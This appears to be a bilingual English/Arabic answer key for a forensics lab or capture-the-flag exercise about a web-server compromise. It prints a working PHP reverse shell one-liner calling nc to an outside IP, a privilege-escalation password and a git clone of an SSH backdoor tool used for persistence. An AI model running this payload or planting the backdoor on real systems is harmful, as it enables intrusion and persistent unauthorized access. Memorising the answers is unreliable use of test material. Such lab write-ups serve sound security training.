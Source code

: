 
```
===========Question Number : 1=====================================\
What was the URL of the page they used to upload a reverse shell? : |
/development/                                                       |
--------------------------------------------------------------------|
===========رقم السؤال : 1============================================ /
ما هو عنوان URL للصفحة التي استخدمها المهاجم لرفع شل عكسي؟                       |
                                                                                                              |                                                       /development/
                                                                                                              |--------------------------------------------------------------------
```

```
===========Question Number : 2====================================================================\
What payload did the attacker use to gain access? :                                                |
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?> |
---------------------------------------------------------------------------------------------------|
===========رقم السؤال : 2==========================================================================
ما الحمولة التي استخدمها المهاجم للوصول؟                                                                     / 
                                                                                |<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
                                                                                |--------------------------------------------------------------------------------------------------


```




```
===========Question Number : 3==================\
What password did the attacker use to privesc? : |
whenevernoteartinstant                           |
-------------------------------------------------|
===========رقم السؤال : 3========================/
ما هي كلمة المرور التي استخدمها المهاجم للتصعيد؟             |
                                                                                                                                   |                         whenevernoteartinstant
                                                                                                                                   |-----------------------------------------------


```

```
===========Question Number : 4======================\
persistence:                                        |
git clone https://github.com/NinjaJc01/ssh-backdoor.|
----------------------------------------------------|
===========رقم السؤال : 4==================================/
طريقة الاستمرارية (Persistence):                              |
                                                                                                                         | git clone https://github.com/NinjaJc01/ssh-backdoor.
                                                                                                                         |---------------------------------------------------------


```
